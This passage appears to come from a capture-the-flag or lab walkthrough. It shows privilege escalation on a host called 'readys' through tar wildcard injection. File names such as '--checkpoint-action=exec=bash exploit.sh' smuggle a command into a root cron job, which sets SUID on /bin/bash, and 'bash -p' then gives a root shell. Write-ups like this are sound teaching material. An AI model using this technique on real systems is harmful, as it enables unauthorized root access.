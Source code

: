 We then create two empty files using `touch`. The first will cause `tar` to cause a checkpoint on every file and the second will tell `tar` to execute our **exploit.sh** with `bash` on every checkpoint.

```
alice@readys:/var/www/html$ touch ./"--checkpoint=1"
touch ./"--checkpoint=1"
alice@readys:/var/www/html$ touch ./"--checkpoint-action=exec=bash exploit.sh"
touch ./"--checkpoint-action=exec=bash exploit.sh"
```

After a few minutes, we check if the cron job has run and if SUID is set on **/bin/bash**.

```
alice@readys:/var/www/html$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
alice@readys:/var/www/html$ 
```

We can now execute `bash` with SUID to gain a root shell on the target.

```
alice@readys:/var/www/html$ /bin/bash -p
/bin/bash -p
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
whoami
root
```